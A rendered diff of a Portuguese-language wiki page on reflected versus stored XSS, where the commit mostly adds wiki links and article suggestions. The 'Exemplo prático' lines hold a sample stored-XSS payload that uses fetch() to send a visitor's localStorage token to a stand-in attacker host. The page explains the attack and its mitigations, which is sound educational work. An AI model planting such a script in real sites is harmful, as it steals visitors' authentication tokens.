

Before and after one commit to wendeus0/LLM-knowledge-base, a Markdown page: wiki/cybersecurity/xss-refletido-vs-armazenado--entendendo-as-diferen-as.md, the part around one of its changes. GitHub-like rendering; blank space fills up the shorter version.

```diff
--- a/wiki/cybersecurity/xss-refletido-vs-armazenado--entendendo-as-diferen-as.md
+++ b/wiki/cybersecurity/xss-refletido-vs-armazenado--entendendo-as-diferen-as.md
@@ -33,7 +34,7 @@ O XSS Armazenado representa uma ameaça mais severa, pois o payload malicioso é
 - **Difícil detecção**: Pode permanecer ativo por longos períodos antes de ser identificado
 
 ### Exemplo prático:
-Um atacante insere `<script>fetch('https://atacante.com/log?d='+localStorage.getItem('token'))</script>` em um comentário de blog. Todos os visitantes futuros que carregarem a página executarão o script, enviando seus tokens de autenticação para o servidor do atacante.
+Um atacante insere `<script>fetch('https://atacante.com/log?d='+localStorage.getItem('token'))</script>` em um comentário de blog. Todos os visitantes futuros que carregarem a página executarão o script, enviando seus tokens de [[autenticacao]] para o servidor do atacante.
 
 ## Comparativo: Refletido vs Armazenado
 
@@ -44,16 +45,16 @@ Um atacante insere `<script>fetch('https://atacante.com/log?d='+localStorage.get
 | **Alcance** | Individual (targeted) | Massivo (todos os visitantes) |
 | **Complexidade** | Requer [[engenharia-social]] | Requer bypass de filtros de entrada |
 | **Detecção** | Mais difícil (não deixa rastros no servidor) | Mais fácil (payload visível no DB) |
-| **Impacto típico** | Roubo de sessão de um usuário | Comprometimento em larga escala |
+| **Impacto típico** | Roubo de [[session-hijacking|sessao]] de um usuário | Comprometimento em larga escala |
 
 ## Mitigação
 
 Ambos os tipos compartilham estratégias de prevenção fundamentais:
-- **Sanitização rigorosa** de entradas de usuário
-- **Codificação de saída** (output encoding) apropriada ao contexto (HTML, JavaScript, URL, CSS)
-- Implementação de **Content Security Policy (CSP)**
+- **[[input-sanitization|Sanitizacao]] rigorosa** de entradas de usuário
+- **[[output-encoding|Codificacao de saida]]** (output encoding) apropriada ao contexto (HTML, JavaScript, URL, CSS)
+- Implementação de **[[content-security-policy|Content Security Policy (CSP)]]**
 - Uso de headers de segurança como `X-XSS-Protection` (em conjunto com outras medidas)
-- Frameworks modernos que aplicam [[input-validation]] e escaping automático
+- [[frameworks|Frameworks]] modernos que aplicam [[input-validation]] e escaping automático
 
 ## Conceitos Relacionados
 - [[xss-(cross-site-scripting)]]
@@ -64,3 +65,17 @@ Ambos os tipos compartilham estratégias de prevenção fundamentais:
 - [[payload]]
 - [[input-validation]]
 - [[content-security-policy]]
+- [[aplicacoes-web]]
+- [[navegador]]
+- [[servidor]]
+- [[session-hijacking]]
+- [[autenticacao]]
+- [[injection]]
+- [[input-sanitization]]
+- [[output-encoding]]
+- [[frameworks]]
+
+<!-- Sugestões de novos artigos:
+[[xss-baseado-em-dom]] - O artigo menciona "diferentes variantes" mas aborda apenas Refletido e Armazenado, faltando a terceira categoria principal (DOM-based XSS) que também é crítica
+[[web-storage-security]] - O artigo menciona localStorage como vetor de roubo de tokens; um artigo dedicado à segurança de Web Storage (localStorage, sessionStorage, IndexedDB) e boas práticas de armazenamento client-side seria complementar
+-->
```
Also changed, not shown: other parts of wiki/cybersecurity/xss-refletido-vs-armazenado--entendendo-as-diferen-as.md (+4 -3 lines), wiki/cybersecurity/xss-(cross-site-scripting).md (+19 -15 lines), wiki/ai/skills-in-ai-agents.md (line endings or trailing spaces).
